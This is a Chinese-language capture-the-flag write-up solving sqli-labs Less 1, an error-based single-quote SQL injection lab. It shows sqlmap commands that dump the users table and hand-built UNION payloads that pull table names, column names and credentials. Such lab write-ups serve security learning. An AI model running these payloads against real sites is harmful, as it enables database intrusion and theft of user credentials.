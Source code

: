 ## [[sqli-labs](https://github.com/Audi-1/sqli-labs)] [[Less 01 - Error Based Single Quotes](http://127.0.0.1/Less-1/)] [[解题报告](http://exp-blog.com/2019/06/02/pid-3882/)]

------

## 题目分析


乍一看似乎无从入手，其实注意看提示即可，提示是以数值型的 `id` 作为请求参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/01.png)

于是尝试在 url 中追加参数 `?id=1` ，可以看到页面回显了数据库的查询内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/02.png)

改变 `id` 的值，可以查到不同的内容，推测此处是注入点：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/03.png)

## 使用 sqlmap 注入（不推荐）

先尝试下使用 sqlmap 解题（非必要不推荐这种解题方式，因为对于学习 sqli 毫无帮助）。

先通过以下命令查询所有数据库：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --dbs
```

得到 6 个数据库：

```shell
available databases [6]:
[*] challenges
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] sys
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/04.png)

然后通过以下命令查询到当前数据库为 `security`

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --current-db
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/05.png)

再通过以下命令查询到 `security` 数据库的所有表名：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security --tables
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/06.png)

得到 4 个表名：

```shell
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

很明显，`users` 表应该就是我们的目标表，通过以下命令把整个表的数据 dump 下来：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security -T users --dump
```

成功脱裤，完成挑战：

```shell
Database: security
Table: users
[13 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | Dumb     | Dumb       |
| 2  | Angelina | I-kill-you |
| 3  | Dummy    | p@ssword   |
| 4  | secure   | crappy     |
| 5  | stupid   | stupidity  |
| 6  | superman | genious    |
| 7  | batman   | mob!le     |
| 8  | admin    | admin      |
| 9  | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
+----+----------+------------+
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/07.png)


## 手工注入（推荐使用 Burp 辅助）

注意标题给出了两个提示：

- Error Based
- Single Quotes

那么尝试在参数后用单引号闭合 `?id=1'` 看下效果：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/08.png)

页面报错，而且从错误信息中，我们注意到两个关键信息：

- 数据库类型是 mysql
- 错误位置是 `'1'' LIMIT 0,1` （其中 `1'` 是我们输入的内容，不难推测**输入值会自动被单引号包围**）

结合异常信息，猜测这条 SQL 应该形如：

```sql
$sql = "select username, password from user where id = '" + $_GET[id] + "' LIMIT 0,1"
```

这种 SQL 要注入其实不难：

- 先闭合单引号
- 然后用 `union` 关联查询其他表的信息 （列数可以通过 `order by` 测试，本题测试到是 3 列）
- 最后再通过行注释处理掉末尾的 `LIMIT` 即可 （ MySql 的行注释有两种方式：`#` 和 `-- `，注意**后一种方式末尾至少有一个空格** ）

于是可以构造 payload 为 ：`?id=1' union select 1, 2, 3 #` 或 `?id=1' union select 1, 2, 3 --+`

> 注意，上面的 payload 只适用于 Burp Suite。若通过浏览器注入，需要对几个特殊字符做 URL 编码：空格要编码成 `%20` ，`#` 要编码成 `%23` 。特别地，`-- ` 刚好在 URL 末尾，而末尾的空格会被浏览器自动删掉，即使编码也不会保留，此时需要利用 URL 把 `+` 识别为空格的特性，使用 `--+` 代替。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/09.png)

可以看到第 2、3 列被回显到页面，因此可以利用这两列查询我们想要的信息。

例如查询 mysql 的版本以及当前数据库，可以构造 payload 如下：

```sql
?id=1' union select 1, version(), database() #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/10.png)

而通过这个 payload 可以查询当前数据库下的所有表名：

```sql
?id=1' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema = (select database()) #
```

> 这里用到 mysql 的 `group_concat` 函数，其作用是把某一列的所有行值串接成一个字符串。而 `information_schema` 是系统表，可以查到数据库中的所有表结构。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/11.png)

从表名推测，`users` 就是我们的目标表，再次构造 payload 查询该表的表结构：

```sql
?id=1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/12.png)

找到目标列名 `username` 和 `password` ，最后构造如下 payload 实现脱裤，完成挑战：

```sql
?id=1' union select 1, group_concat(username), group_concat(password) from users #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/13.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
